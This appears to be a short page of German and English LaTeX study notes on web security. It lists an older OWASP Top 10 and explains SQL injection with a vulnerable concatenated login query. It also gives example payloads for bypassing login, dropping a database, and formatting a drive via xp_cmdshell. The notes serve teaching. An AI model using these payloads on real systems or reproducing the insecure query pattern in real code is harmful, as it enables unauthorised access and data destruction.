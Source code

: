 \documentclass[a4paper, 12pt]{article}
\begin{document}
\subsection{Top 10}
Siehe OWASP oben 2.2, hier eine weiter nicht offizielle OWASP Top10 (weder 2010, noch 2013). Empfehle dieses OWASP zu ignorieren.
\begin{itemize}
\item XSS
\item Injection Flaws
\item Malicious File Execution
\item Insecure direct object reference
\item CSRF
\item Information Leakage and Improper Error Handling
\item Broken authentication and session management
\item Insecure Cryptographic Storage
\item Insecure Communications
\item Failure to restrict URL access
\end{itemize}
\subsection{SQL Injection}
Typical Code: \\
string sql = "select * from Users where user ='" +
User.Form + "' and pwd='" + Password.Form + "'"\\\\
Attacker: \\
sql="select * from Users where user ='mch160' and pwd
='' or 1=1 -- '"\\\\

Some commands:
\begin{itemize}
\item 'or 1=1 --'   = login without password
\item '; drop database myDB; --   = delete database
\item '; xp_cmdshell 'format c: /q /yes   = format harddrive (MSSQL Server)
\end{itemize}
Database system usually runs with system privileges ...
\end{document}

